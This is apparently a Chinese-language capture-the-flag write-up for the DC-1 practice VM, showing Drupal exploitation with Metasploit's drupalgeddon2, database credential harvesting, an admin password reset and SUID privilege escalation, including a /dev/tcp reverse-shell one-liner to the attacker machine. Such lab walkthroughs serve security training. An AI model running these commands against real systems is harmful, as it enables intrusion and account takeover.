【DC系列靶场】DC:01
前言
环境部署
- 虚拟化：VMware Workstation
- 网卡：桥接
攻击机
- IP 192.168.1.7
- Kali Linux 25.3
靶机
- DC-1
- IP 192.168.1.6
经过
环境准备
首先，拿到题目环境后导入虚拟机。导入完成后，开机。
后续操作如无新增项，如虚拟机的额外设置，则不再赘述此内容。
主机发现
尝试扫描一下同网段的机器

由于是dhcp的，我们怀疑是192.168.1.6或1.8

应该是1.6了

访问192.168.1.6
发现是Drupal

使用searchsploit去查找漏洞，发现相关漏洞还是比较多的

1 | pip install droopescan --break |

发现版本为7.22-7.26

打开msfconsole

考虑到题目是2019年左右的，尝试使用2018年稍微新点且经过验证的exploit/unix/webapp/drupal_drupalgeddon2

需要设置一个远程地址

成功拿下Shell

拿到shell

注意！这不是卡死，这大概率是因为服务端的shell不是交互式的

1 | ls |


查看flag1，提示说我需要看一下配置文件

看下sites目录

1 | cat sites/default/settings.php |

提示了我们暴力破解和字典攻击不是获取访问权限的唯一途径，询问我们有了这些证书后应该干什么。
1 | $databases = array ( |
当然，因为这个非交互界面有点反人类，我们创建一个交互界面。
1 | python -c 'import pty;pty.spawn("/bin/bash")' |


进入数据库：
1 | mysql -u dbuser -p |
密码是：R0ck3t
查看数据库：
1 | show databases; |

正好发现了一个我们之前获得的数据库名，那么，我们切换数据库
1 | use drupaldb |
查看表：
1 | show tables; |

查看所有用户：
1 | select * from users; |


uid为1的用户有最高权限
我们这里的方法很多，最简单的就是替换密码了。
当然为了操作方便，我们可以先反弹个shell出来
1 | nc -lvnp 8888 |

看下脚本目录都有什么

密码哈希的脚本都给了，那还不去操作？

1 | $S$DkfAopsxDIJ1lo6Gh/yvmo39dttxXrEja/a.byDkL5kUpLw6GIgW |
重新进入数据库，更新密码

1 | use drupaldb |


去尝试登录，admin，123456

特殊的PERMS将有助于找到密码，但你需要执行该命令来弄清楚如何获取shadow文件中的内容。
也就是我们需要提权
先从简单的suid提权来

熟悉的Find SUID提权（先开nc的监听）
1 | find / -exec bash -ip >& /dev/tcp/192.168.1.7/8888 0>&1 \; |





至此，4个flag找全。
番外
此外，这个环境下有gcc，也就是你可以…内核提权



在本机下载，传到机器上，或者直接在机器下载（取决于网速）



还是比较多的